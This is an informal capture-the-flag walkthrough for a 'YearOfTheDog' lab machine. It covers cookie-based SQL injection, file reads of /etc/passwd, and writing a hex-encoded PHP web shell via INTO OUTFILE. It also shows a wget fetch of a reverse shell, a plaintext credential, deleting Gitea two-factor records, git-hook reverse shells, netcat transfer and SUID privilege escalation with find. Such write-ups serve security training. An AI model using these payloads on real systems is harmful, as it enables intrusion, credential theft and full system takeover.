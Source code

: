 # YearOfTheDog

```
Ports:
22
80
```

Nothing interesting found searching directoris, higest ports.
try use sqlmap 

: sqlmap -u http://10.10.11.217/ --dump-all --level 5 --risk 3 --batch
	[02:59:05] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set it sown('id=5f9d79710af...8d71d695f5').

edit cookie id='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

### Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothing really interesting

Try sqlinjection read files

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
```
SUCESS

dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

LOAD index.php

	require_once"config.php";

	if(!isset($_COOKIE["id"])){
	$cookie=bin2hex(random_bytes(16));
	$queueNum=rand(1,100);
	setcookie("id",$cookie,NULL,"/");

	$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640aINTOOUTFILE'/var/www/html/test.php'---
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

: ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
: ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

: sudo -l

(ALL) NOPASSWORD: ALL

: sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find

nc {kali@mchine} 4444 < /usr/bin/find 

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine: ./find . -exec /bin/sh -p\; -quit

root#>
